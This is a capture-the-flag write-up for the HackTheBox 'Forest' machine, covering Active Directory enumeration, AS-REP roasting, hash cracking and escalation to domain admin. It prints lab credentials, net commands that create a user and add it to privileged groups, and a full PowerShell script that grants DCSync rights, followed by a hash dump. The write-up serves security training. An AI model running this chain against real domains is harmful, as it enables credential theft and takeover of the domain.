 #  Forest - HackTheBox WriteUp

![info_card](/images/forest/info_card.png)

## Enumeration & Information Gathering 

#### Scanning

```Full TCP Nmap Scan:
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain?      syn-ack ttl 127
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-03-11 19:16:21Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49908/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

#### Enumerating Samba (Enum4linux)
Discovered the following users: 

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## Exploitation

Doing a bit of cleanup to obtain only the usernames and trying all the users with Impacket GetNPUsers.py


![getnpusers1](/images/forest/getnpusers1.png)

![getnpusers2](/images/forest/getnpusers2.png)


We obtain the hash for user svc-alfresco.

Password crack with Hashcat:


![crack_svc_alfresco](/images/forest/crack_svc_alfresco.png)

#### Foothold

Trying to authenticate using evilwin-rm with credentials svc-alfresco:s3rvice

![auth_alfresco](/images/forest/auth_alfresco.png)

#### Post Exploitation Enumeration

Running Sherlock brought NO luck
 and nothing juicy from WinPeas output.

Couldn't run systeminfo in order to try windows-exploit-sugester

After realising that we are dealing with AD here, bloodhound seems a logical way to go check for privilege escalation.

We download and run Sharphound.ps1 to our victim.

Running bloodhound on our host system

```
apt install bloodhound

neo4j console 

bloodhoud
```

and uploading the output from the victim:

![hound_out](/images/forest/hound_out.png)

This shows that we have a path to Administrator from our svc-alfresco user.

The WriteDacl permissions on svc-alfresco seen from the below screenshot will make it possible to grant DCSync rights to a user and then be then we can further dump the Administrator password.


![hound_out](/images/forest/hound_out2.png)

Searching on google we find many articles related to **Exchange Windows Permissions Privilege escalation.**

## Privilege Escalation

After failing with Privexchange and AclPWN ( note: at this point I was trying to escalate directly with my first user "svc-alfresco")

This this git page appeared to have exactly what was needed.
[github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) 

Add new user: 

`net user chris password1 /ADD /DOMAIN
`

Add user to Remote Management group ( to allow remote 
connections using WinRM/EvilWinRM): 

`net localgroup "Remote Management Users" /add chris
`

Add user to group "Exchange Windows Permissions": 

`net group "Exchange Windows Permissions" 
`

Add user to group "Organization Management(suggested in the article)": 

`net group "Organization Management" /add chris
`

Then follow the script as user chris:

But first import powerview.ps1 in order to leverage cmdlets get-acl and set-acl from AD


```
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Then Secrets Dump:

![sec_dump](/images/forest/sec_dump.png)


Authentication with the hash and root flag:


![root_auth_n_flag.png](/images/forest/root_auth_n_flag.png)


**Extra:** 

The machine had PowerView.ps1, a users.txt and revert.ps1 used for reversing the state of the machine for the svc-alfreco account permissions

Top 5 References:

1.	https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md
2.	https://github.com/dirkjanm/privexchange/
3.	https://github.com/fox-it/Invoke-ACLPwn
4.	https://spookysec.net/2019-12-01-domain-controller-sync/
5.	https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

Failed attempts:

* https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/
* https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/
* https://www.theregister.co.uk/2019/01/25/microsoft_exchange_domain_admin_eop/

Likely due to the fact that I was testing with the active user svc-alfresco

Thanks for reading!

L8Comerz

